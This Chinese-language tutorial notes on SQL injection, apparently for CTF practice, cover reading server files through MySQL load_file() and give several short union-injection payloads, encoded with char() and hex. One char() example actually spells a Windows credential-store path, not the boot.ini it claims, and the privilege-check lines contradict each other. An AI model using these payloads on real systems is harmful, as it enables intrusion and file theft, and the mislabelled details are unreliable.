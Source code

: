 # SQL注入总结(三)

参考：BUUCTF-Sqli_Labs/ [SQL注入天书](https://xz.aliyun.com/t/385#toc-10)  
非常好的SQL注入文章，本文只是对它的拙劣总结  
想掌握注入，实战永远比理论重要。  
$ 在文章中代表可控变量  
要求读者掌握基本的SQL语法知识  
[堆叠注入和神奇的存储过程绕过](https://blog.csdn.net/weixin_40871137/article/details/94349532)  
[SQLMap的使用](https://www.freebuf.com/sectool/164608.html)

## 文件的导入导出

### Load_File()函数

读取文件并且返回该文件的内容作为一个字符串。如果文件不存在或不能读取，函数返回为空。使用有以下的限制条件： 

1. 必须有权限读取并且文件必须完全可读  
2. 欲读取文件必须在服务器上  
3. 必须指定文件完整的路径  
4. 欲读取文件必须小于 max_allowed_packet  

查看文件权限的方式：

```sql
and (select count(*) from mysql.user)>0--如果结果返回正常,说明具有读写权限。  
and (select count(*) from mysql.user)>0--返回错误，应该是管理员给数据库帐户降权  
```

要获得路径是一个难点。[常用路径](http://www.cnblogs.com/lcamry/p/5729087.html)  

#### 导出文件示例

`Select 1,2,hex(replace(load_file(char(99,58,92,119,105,110,100,111,119,115,92,114,101,112,97,105,114,92,115,97,109)))`  
其中，char里面的字符是`c:/boot.ini`的字符代码。  

#### 另一个示例

`-1 union select 1,1,1,load_file(0x633a2f626f6f742e696e69)`  
其中0x那一串数就是`c:/boot.ini`的十六进制。

#### 这样写偶尔也可以

`-1 union select 1,1,1,load_file(c:\\boot.ini)`  
路径里的 / 用 \\\\ 代替。

